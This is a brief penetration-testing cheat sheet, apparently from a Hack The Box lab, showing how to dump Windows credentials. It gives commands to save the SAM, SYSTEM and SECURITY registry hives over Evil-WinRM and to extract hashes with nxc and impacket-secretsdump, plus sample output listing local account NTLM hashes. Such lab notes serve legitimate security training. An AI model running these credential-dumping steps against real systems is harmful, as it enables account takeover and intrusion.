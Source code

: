
V: is ~/boxes/htb/cicada
`*Evil-WinRM* PS V:\> reg save HKLM\SAM sam.hive`
`*Evil-WinRM* PS V:\> reg save HKLM\SYSTEM system.hive`
`*Evil-WinRM* PS V:\> reg save HKLM\SECURITY security.hive`

`nxc smb 10.10.10.10 ... --sam`

`impacket-secretsdump -sam sam.hive -system system.hive LOCAL`

### Examples

```sh
┌──(fixit42㉿kali)-[~/boxes/htb/cicada]
└─$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

